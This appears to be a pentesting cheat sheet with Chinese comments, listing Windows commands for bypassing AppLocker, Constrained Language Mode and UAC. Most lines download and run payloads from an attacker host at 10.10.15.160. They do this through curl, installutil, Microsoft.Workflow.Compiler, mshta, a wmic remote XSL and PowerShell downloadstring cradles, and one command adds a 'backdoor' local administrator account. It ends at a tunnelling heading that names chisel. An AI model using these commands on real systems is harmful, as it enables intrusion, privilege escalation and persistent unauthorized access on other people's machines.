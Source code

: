 ``` cmd
# 1 下载dll和net反射dll的ps1脚本 反射得到shell
curl http://10.10.15.160/out/exe/BypassCLM.exe -o C:\Users\Public\BypassCLM.exe

# 2 下载并执行inject的ps1脚本
curl http://10.10.15.160/out/exe/BypassCLM_ps_inject.exe -o C:\Users\Public\BypassCLM.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\BypassCLM.exe
```

__Complier__

``` cmd
curl http://10.10.15.160/out/other/test.xml -o C:\Users\Public\test.xml 
curl http://10.10.15.160/out/other/test.txt -o C:\Users\Public\test.txt

C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe C:\Users\Public\test.txt C:\Users\Public\test.xml
```

__hta + certutil + bitsadmin__

http://10.10.15.160/out/other/bypassAppLocker.hta

制作快捷方式 或 html走私
``` cmd
C:\Windows\System32\mshta.exe http://10.10.15.160/out/other/bypassAppLocker.hta
```

__wmic xsl__
``` cmd
wmic process get brief /format:"http://10.10.15.160/out/other/data.xsl"
```

> uac

```
# Invoke-BypassUAC
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/Invoke-BypassUAC.ps1')) 

Invoke-BypassUAC -Command 'net user backdoor "Password123!" /add && net localgroup administrators backdoor /add"' -Verbose
Invoke-BypassUAC -PayloadPath .\payload.dll -Verbose

# Invoke-FodHelperBypass.ps1
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/Invoke-FodHelperBypass.ps1')) 
# 执行base64加密的命令
Invoke-FodHelperBypass -Command "IgBJAHMAIABFAGwAZQB2AG "

```

> 隧道

__chisel__
